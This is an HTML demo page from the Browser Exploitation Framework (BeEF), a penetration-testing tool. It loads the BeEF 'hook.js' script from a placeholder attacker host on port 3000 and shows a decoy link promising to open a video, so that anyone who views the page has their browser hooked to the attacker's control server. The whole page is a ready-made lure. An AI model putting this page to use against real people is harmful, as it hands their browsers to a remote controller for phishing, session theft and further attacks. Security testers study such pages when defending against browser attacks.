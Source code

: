 <!--
    Copyright (c) 2006-2022 Wade Alcorn - wade@bindshell.net
    Browser Exploitation Framework (BeEF) - http://beefproject.com
    See the file 'doc/COPYING' for copying permission
-->
<html><head>
<meta http-equiv="content-type" content="text/html; charset=windows-1252">
<script src="http://<IP>:3000/hook.js"></script>

</head>
<body>
<a href="https://www.youtube.com/watch?v=PzGI-FBzcNE">
Press here the link to open the video.
</a>

</body></html>
